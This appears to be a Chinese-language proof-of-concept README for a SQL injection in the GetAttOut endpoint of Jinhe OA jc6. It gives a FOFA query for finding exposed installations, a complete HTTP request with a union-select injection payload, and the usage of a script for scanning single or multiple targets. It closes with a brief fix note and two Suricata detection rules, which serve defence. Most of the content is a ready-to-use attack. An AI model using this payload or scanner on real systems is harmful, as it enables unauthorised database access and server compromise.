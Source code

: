 ### 产品简介  
金和OA协同办公管理系统j6软件是一种综合性的协同办公解决方案，旨在提高企业内部的协作效率和工作效率。它提供了一系列功能和工具，帮助组织进行任务管理、日程安排、文件共享、团队协作和沟通等方面的工作。  

### 漏洞概述  
金和 OA jc6 /jc6/JHSoft.WCF/TEST/GetAttOut接口处存在SQL注入漏洞，攻击者不仅可以利用 SQL 注入漏洞获取数据库中的敏感信息，还可以向服务器中写入恶意木马或者执行命令远程下载后门，获取服务器系统权限。  

### 指纹识别  
fofa: app="Jinher-OA"  

![Image text](https://github.com/YUUKI4O4/POC/blob/main/%E9%87%91%E5%92%8C/Jinhe_OA_jc6_GetAttOut_SQL_injection/1.png)
![Image text](https://github.com/YUUKI4O4/POC/blob/main/%E9%87%91%E5%92%8C/Jinhe_OA_jc6_GetAttOut_SQL_injection/2.png)

### 漏洞利用  
```
poc:
POST /jc6/JHSoft.WCF/TEST/GetAttOut HTTP/1.1
Host: xxxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 149

1' union select null,CHAR(118)+CHAR(117)+CHAR(108)+ISNULL(CAST(222*3 AS NVARCHAR(4000)),CHAR(32))+CHAR(118)+CHAR(117)+CHAR(108),null,null,null,null--
```

### 测试和利用脚本  
```
python3 Jinhe_OA_jc6_GetAttOut_SQL_injection.py -h
usage: jinhe_oa.py [-h] [-t] [-r FILE] [-u URL]

### Jinhe OA jc6 GetAttOut SQL injection vulnerability. ###

options:
  -h, --help            show this help message and exit
  -t, --target_collection
                        Perform target collection
  -r FILE, --multi_objective_testing FILE
                        Perform multi-objective testing. e.g:python Jinhe_OA_jc6_GetAttOut_SQL_injection.py -r ./url.txt
  -u URL, --single_objective_testing URL
                        Perform single-objective testing. e.g:python Jinhe_OA_jc6_GetAttOut_SQL_injection.py -u http://xxx.xxx.xxx
```

### 修复建议  
1.联系相关软件厂商更新至最新安全版本。  

### Suricata rules  
```
alert http any any -> any any (msg:"Jinhe OA jc6 GetAttOut SQL injection vulnerability."; flow:established,to_server; flowbits:set,Jinhe_OA_jc6_GetAttOut_SQL_injection; content:"post";http_method;nocase; content:"/jc6/JHSoft.WCF/TEST/GetAttOut";http_uri;fast_pattern;nocase; content:"'";nocase;http_client_body; content:"--";nocase;http_client_body;distance:0; pcre:"/(?:S(?:HOW.+(?:C(?:HARACTER.+SET|UR(DATE|TIME))|(?:VARI|T)ABLES)|ELECT.+(?:FROM|USER))|U(?:NION.+SELEC|PDATE.+SE)T|DELETE.+FROM|INSERT.+INTO)/Pi"; reference:url,https://github.com/YUUKI4O4/POC/tree/main/%E9%87%91%E5%92%8C/Jinhe_OA_jc6_GetAttOut_SQL_injection; classtype:web-attck; metadata:created_at 2024-01-15,updated_at 2024-01-15,creater:YUUKI4O4; sid:19; rev:1;)
alert http any any -> any any (msg:"Jinhe OA jc6 GetAttOut SQL injection vulnerability success."; flow:established,from_server; flowbits:isset,Jinhe_OA_jc6_GetAttOut_SQL_injection; content:"200";http_stat_code; content:"attOEndTime";http_server_body;nocase; content:"attOBeginTime";http_server_body;nocase; content:"attOReason";http_server_body;nocase; content:"success";http_server_body;nocase; content:"1";http_server_body;nocase;distance:0; reference:url,https://github.com/YUUKI4O4/POC/tree/main/%E9%87%91%E5%92%8C/Jinhe_OA_jc6_GetAttOut_SQL_injection; classtype:web-attck; metadata:created_at 2024-01-15,updated_at 2024-01-15,creater:YUUKI4O4; sid:20; rev:1;)
```
